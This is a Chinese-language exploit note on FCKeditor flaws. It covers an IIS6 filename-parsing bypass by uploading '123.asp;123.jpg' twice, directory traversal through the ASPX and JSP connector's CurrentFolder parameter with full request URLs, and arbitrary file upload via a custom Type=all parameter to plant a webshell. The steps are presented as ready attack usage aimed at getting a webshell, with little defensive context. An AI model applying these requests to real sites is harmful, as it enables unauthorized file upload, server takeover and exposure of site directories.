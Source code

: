 影响版本:=>2.4.x 的最新版已修补

脆弱描述:

由于 Fckeditor 对第一次上传 123.asp;123.jpg 这样的格式做了过滤。也就是 IIS6 解析漏洞。

上传第一次。被过滤为 123_asp;123.jpg 从而无法运行。  
但是第 2 次上传同名文件 123.asp;123.jpg 后。由于”123_asp;123.jpg” 已经存在。  
文件名被命名为 123.asp;123(1).jpg …… 123.asp;123(2).jpg 这样的编号方式。  
所以。IIS6 的漏洞继续执行了。

如果通过上面的步骤进行测试没有成功，可能有以下几方面的原因：  

1.FCKeditor 没有开启文件上传功能，这项功能在安装 FCKeditor 时默认是关闭的。如果想上传文件，FCKeditor 会给出错误提示。

2. 网站采用了精简版的 FCKeditor，精简版的 FCKeditor 很多功能丢失，包括文件上传功能。  

3.FCKeditor 的这个漏洞已经被修复。

### FCKeditor 新闻组件遍历目录漏洞

影响版本: Aspx 与 JSP 版 FCKeditor

脆弱描述：

如何获得 webshell 请参考上文 “TYPE 自定义变量任意上传文件漏洞”  
攻击利用:  
修改 CurrentFolder 参数使用 ../../ 来进入不同的目录

```
/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../..%2F&NewFolderName=aspx.asp
```

根据返回的 XML 信息可以查看网站所有的目录。

```
/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=%2F

/browser/default/connectors/jsp/connector?Command=GetFoldersAndFiles&Type=&CurrentFolder=%2F
```

### TYPE 自定义变量任意上传文件漏洞

影响版本: 较早版本  

脆弱描述：

通过自定义 Type 变量的参数，可以创建或上传文件到指定的目录中去，且没有上传文件格式的限制。

攻击利用:

```
/FCKeditor/editor/filemanager/browser/default/browser.html?Type=all&Connector=connectors/asp/connector.asp
```

打开这个地址就可以上传任何类型的文件了，Shell 上传到的默认位置是:  
**http://www.xxxx.com/UserFiles/all/1.asp**  
`Type=all` 这个变量是自定义的, 在这里创建了 all 这个目录, 而且新的目录没有上传文件格式的限制.
